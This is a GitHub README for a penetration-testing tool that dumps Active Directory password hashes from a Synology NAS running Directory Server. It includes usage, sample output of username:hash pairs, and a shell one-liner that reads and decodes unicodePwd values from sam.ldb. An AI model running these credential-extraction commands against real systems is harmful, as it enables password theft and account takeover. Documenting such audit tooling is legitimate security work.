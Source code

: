 # sDCSync - Synology Directory Server Hash Extractor

## Introduction

Small businesses may use Synology's Directory Server instead of a fully fledged Windows Server for a variety of reasons.

I was in a situation where I needed to test the strength of passwords at a given company and that company was using their Synology NAS as their Domain Controller. Normally I would use Mimikatz's DCSync module or manually grab sam.hiv and system.hiv to extract the hashes, however DCSync seems to be broken (not implemented or just disabled?) with Synology's Directory Server and the file system of the device doesn't store the hashes in the same way as a Windows machine does.

TL;DR I couldn't find any tools to extract AD hashes from a Synology NAS running Directory Server, so I made one myself.

## Usage

```
usage: extract.py [-h] [--path [directory]] [--output [output file]]

optional arguments:
  -h, --help            show this help message and exit
  --path [directory]    specify location of private ldap data folder (default:
                        /volume*/@appstore/DirectoryServerForWindowsDomain/private/)
  --output [output file]
                        output file name
```

This script can be run with either python2.7 or with python3 on the target Synology NAS or locally. If the script runs locally, the following folder needs to be copied from the Synology.

```
/volume*/@appstore/DirectoryServerForWindowsDomain/private
```


## Example Usage

On a Synology NAS running Directory Server

```
admin@synology:/tmp$ sudo python extract.py
-+= CRFSlick's Synology Directory Server Hash Extractor =+-
[*] Running command... Done!
[*] Writing output to "output.dat"
[+] Success!
admin@synology:/tmp$ cat output.dat 
jsmith:af618854faa213f29760a9dd225cafc4
tmike:4b287445eeb20f4f5c4c5f888e970c6b
admin:841a370075da4fa12968d5b58e8ffdaa
(...)
```

On a local machine with copy of `/volume*/@appstore/DirectoryServerForWindowsDomain/private`

```
crfslick@ubuntu:~$ python3 extract.py --path /home/slick/private/ --output hashes.dat
-+= CRFSlick's Synology Directory Server Hash Extractor =+-
[*] Running command... Error!
[!] It seems that running "ldbsearch" has failed, resorting to manual extraction.
[*] Writing output to "hashes.dat"
[+] Success!
crfslick@ubuntu:~$ cat hashes.dat 
jsmith:af618854faa213f29760a9dd225cafc4
tmike:4b287445eeb20f4f5c4c5f888e970c6b
admin:841a370075da4fa12968d5b58e8ffdaa
(...)
```


## Dependencies

My Synology with Directory Server installed already had `ldapsearch`, so I assume that it's standard. You only need to have the python dependencies installed if you are running this locally.

+ Programs / Binaries
  + ldapasearch
+ Python Modules
  + samba
  + ldb

## Other Information

I also made this quick, dirty one-liner to extract just the hashes. This *will not* show you what user or computer the hashes belong to and relies on having `ldbsearch` installed, but it's nice for quick extraction. Replace `sam.ldb` with your relevant file location.

```sh
data=$(ldbsearch -H sam.ldb unicodepwd | grep 'unicodePwd' | awk -F ' ' {'print $2'}); while IFS= read -r line; do python -c "import codecs ; import binascii; print (binascii.hexlify(codecs.decode( '$line' , 'base64')))"; done <<< $data
```

```
crfslick@ubuntu:~$ data=$(ldbsearch -H sam.ldb unicodepwd | grep 'unicodePwd' | awk -F ' ' {'print $2'}); while IFS= read -r line; do python -c "import codecs ; import binascii; print (binascii.hexlify(codecs.decode( '$line' , 'base64')))"; done <<< $data 
af618854faa213f29760a9dd225cafc4
4b287445eeb20f4f5c4c5f888e970c6b
841a370075da4fa12968d5b58e8ffdaa
(...)
```

## Disclaimer

This project is intended for educational purposes only and cannot be used for law violation or personal gain. The author of this project is not responsible for any possible harm caused by the materials. 
